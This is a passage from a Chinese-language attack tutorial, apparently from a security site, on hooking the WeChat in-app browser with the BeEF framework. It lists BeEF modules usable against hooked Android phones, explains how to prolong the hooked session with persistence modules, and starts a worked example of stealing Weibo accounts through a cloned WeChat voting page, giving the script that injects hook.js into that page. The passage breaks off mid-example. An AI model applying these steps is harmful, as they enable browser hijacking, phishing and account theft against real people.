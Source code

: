 我们可以看到伪造前的URL地址

**注：**

BeEF的hook页面可以自定义成更具欺骗性的内容，这是为了演示方便使用默认界面

2、微信浏览器被Hook后可以做哪些操作
--------------------

也许有人会提出疑问：手机打开网址持续的时间很短，关闭当前页面后BeEF的shell就会下线

**解决方法：**

使用BeEF API，用户上线后能够自动执行批量命令，结合Persistence模块能够极大提高shell存活时间

除了与windows系统相关的信息无法获取，其他操作均能成功执行，并且BeEF为手机劫持提供了专门的模块系列——Phonegap，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/f35921f8e5a2c78b294a463e0fd5297665807a00.jpg)

以下是经测试可以在Android上使用的模块：

```
1、弹框
2、重定向 
3、查看是否访问过某些网站
4、Creates an invisible iframe
5、Social Engineering系列，如下图，仅作演示 
6、msf系列
7、NetWork系列，可以用来扫描同一内网下的windows主机

```

![这里写图片描述](http://drops.javaweb.org/uploads/images/7ca5231cf9666986ddfc0109a2dad6a39ef3466e.jpg)

**注：**

加载hook页面后，将手机屏幕关闭处于待机状态，BeEF仍然可以执行指令，或许这与手机系统相关，值得以后深入测试。

0x07 利用朋友圈投票社工微博帐号实例
=====

1、伪造BeEF的hook页面
---------------

**1、寻找模板**

随机找到一个投票的页面，保存为html

```
http://mp.weixin.qq.com/s?__biz=MzA3MTM0NTgyNw==&mid=400240804&idx=1&sn=d87655d4c67a8f39fc84b3cdcb4c1895&scene=1&srcid=1024yDcPJI2to0i3DmiVmj1L&from=groupmessage&isappinstalled=0#rd

```

**2、替换hook页面**

在`use/share/beef-xss/extensions/demos/html`目录下，将上述html文件命名为basic.html并添加以下代码

```
var commandModuleStr = '<script src="' + window.location.protocol + '//' + window.location.host + '/hook.js" 
type="text/javascript"><\/script>';
        document.write(commandModuleStr);

```
